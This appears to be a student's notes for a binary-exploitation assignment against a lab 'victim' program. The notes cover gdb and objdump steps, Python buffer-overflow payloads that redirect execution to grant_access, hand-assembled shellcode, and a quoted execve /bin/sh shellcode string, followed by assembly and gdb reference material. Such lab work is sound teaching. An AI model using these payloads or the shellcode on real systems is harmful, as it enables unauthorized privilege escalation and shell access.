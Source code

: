 # Assignment 2

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## Step 1

```sh
objdump -d victim > source.dump
objdump -d victim -M intel > source2.dump
# find memtest address and make it little endian
# 08049206 <memtest>
python -c "print 'A' * 24 + '\x06\x92\x04\x08'" | ./victim
>>Return address: 0x00000000
>>Frame address:  0xffafffdc
```

`strncpy()` copies the string by specifying the number n of characters to copy
e.g., `strncpy(dest, src, n); dest[n] = '\0'`
If source string is longer than the destination string, the overflow characters are discarded automatically
You have to place the null character manually

## Step 2

```sh
id -ur #1000
printf '%x\n' 1000 #0x3e8
# bof to \xa2\x92\x04\x08 0x080492a2 <grant_access>
python -c "print 'A' * 24 + '\xa2\x92\x04\x08'" > out2
gdb victim
(gdb) r < out2
(gdb) b * 0x80492b3 # before cmp
(gdb) set $eax = 0x3e8
```

## Step3

A\*12 + edx + AAAA + ebp + eip

```
strcpy
Breakpoint 9, 0x0804931f in password_prompt ()
#0 0x0804931f in password_prompt ()
#1 0x080492a2 in get_user_id ()
#2 0x00000000 in ?? ()

(gdb) x/16xw \$sp

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xffefffe0 0x080492a2 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xebp 0xeip 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

4 steps:

1. must set eip=0xffefffc4

2. pass arg
"\x68\xE8\x03\x00\x00"
push DWORD PTR 0x3e8

3. valid return point? set it after our code?! ebp=0xffefffe4

4. go to grant_access
"\x68\xA2\x92\x04\x08\xC3"
Disassembly: 6bit
0:  68 a2 92 04 08          push   0x80492a2
5:  c3                      ret

mov ebp,0xffefffd0 "\xBD\xD0\xFF\xEF\xFF" 5
mov_ebp_ffefffd0 = struct.pack("I", 0xBDD0FFEFFF)

push_3e8 = struct.pack("I", 0x68E8030000)

push_80492a2 = "\x68\xA2\x92\x04\x08" 5
push 0x80492a2


ret= \xC3 1
id= struct.pack("I", 0x3e8) 4
"\xBD\xD0\xFF\xEF\xFF\x68\xE8\x03\x00\x00\x68\xA2\x92\x04\x08\xC3"
16byte


for debuging # x/16wx 0xffefffc4
```

call 0x080492a2"\xE8\x9E\x92\x04\x08"

## Step 4

- Use NOPs and retired to estimated point/address.
- Sometimes it happens because of enviromental variables. We can remove them. `$env --ignore-environment ./victim (gdb) unset env`
- Maybe use relative address [eip-0x14]!!

## Step 5

Hijack Victim OS

## ASM

- `esp`: the **top of the stack**. It points to (holds the address of) the most-recently pushed value on the stack.
- `eip`: is the instruction pointer. It points to (holds the address of) the first byte of the **next instruction to be executed**.
- `ebp`: is usually set to esp at the start of the function.
- `lea` https://www.aldeid.com/wiki/X86-assembly/Instructions/lea
- NOP \x90
- INT3 \xCC braekpoint

## Endian

![Big-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/5/54/Big-Endian.svg/280px-Big-Endian.svg.png)
![Little-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/e/ed/Little-Endian.svg/280px-Little-Endian.svg.png)

# Resources

- https://www.asciitohex.com/
- https://defuse.ca/online-x86-assembler.htm#disassembly
- [Great Intro for ASM](https://www.youtube.com/watch?v=75gBFiFtAb8)
- [Helper Exploit-Exercises-Protostar](https://github.com/z3tta/Exploit-Exercises-Protostar)
- https://0xrick.github.io/binary-exploitation/bof6/
- [Py.Struct](https://docs.python.org/2/library/struct.html)
- <http://shell-storm.org/>
- <http://shell-storm.org/shellcode/>
- <https://www.youtube.com/watch?v=oS2O75H57qU>
- <https://www.youtube.com/watch?v=T03idxny9jE>
- <http://shell-storm.org/shellcode/files/shellcode-811.php>
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
- [To execute shell code, you can edit a function's contents directly](https://stackoverflow.com/questions/5661021/how-to-run-assembly-in-gdb-directly)

## meaning-of-0x8rsp

Parentheses generally mean to dereference. 0x8(%rsp) means "get the location on the stack that is 8 bytes away from the stack pointer %rsp, and then take the value at that address."
It moves 0x131 into %eax, and then compares it to the data at that location. cmp sets the eflags register depending on that comparison (like the Zero Flag if the operands were equal, etc.)
To see what is at the address using GDB, type

(gdb) x/1dw 0x8(%esp)
This command 'x' examines memory.
1 means examine 1 of whatever unit is specified.
"d" means output in decimal notation (as opposed to hex). you might use "c" to get a char, or "x" to get a hex, or "s" for a string, or whatever.
"w" provides the unit, in this case a word, which is 4 bytes.
So this command looks at 4 bytes at the given address, 0x8(%rsp), and prints whatever is there in decimal format.
To learn more about using GDB to see how your memory is changing, see this document.

To read the memory at given addresses you should take a look at x. x/x $esp for hex x/d $esp for signed x/u $esp for unsigned etc. x uses the format syntax, you could also take a look at the current instruction via x/i $eip etc.

bt - backtrace: show stack functions and args
info frame - show stack start/end/args/locals pointers

(gdb)- `x/4xw $sp`
to print "four words (w ) of memory above the stack pointer (here, \$sp) in hexadecimal (x)". The quotation is slightly paraphrased
